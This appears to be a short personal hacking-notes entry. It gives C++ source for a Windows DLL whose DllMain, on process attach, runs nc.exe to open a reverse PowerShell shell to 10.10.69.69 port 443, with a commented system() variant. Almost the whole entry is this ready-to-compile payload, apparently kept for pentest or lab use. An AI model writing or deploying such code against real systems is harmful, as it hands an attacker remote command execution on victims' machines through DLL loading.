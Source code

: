 # compile windows DLL to run commands DLL code
```cpp
#include <windows.h>

BOOL WINAPI DllMain(
  HINSTANCE hinstDLL,  // handle to DLL module
  DWORD fdwReason,     // reason for calling function
  LPVOID lpReserved )  // reserved
{
  switch( fdwReason ) // Perform actions based on the reason for calling.
  {
    case DLL_PROCESS_ATTACH: // Initialize once for each new process.  Return FALSE to fail DLL load.
      WinExec("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell", 0);
      //system("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell");
      break;

    case DLL_THREAD_ATTACH: // Do thread-specific initialization.
    case DLL_THREAD_DETACH: // Do thread-specific cleanup.
    case DLL_PROCESS_DETACH: // Perform any necessary cleanup.
      break;
  }
  return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```

# References
- [20221003151106](/zet/20221003151106/) compile windows DLL to run commands
- [20221003151104](/zet/20221003151104/) compile windows DLL to run commands DLL code building with mingw
- ~/kb/hacking/windows/dll-to-run-commands.md

Tags:
    #assorted

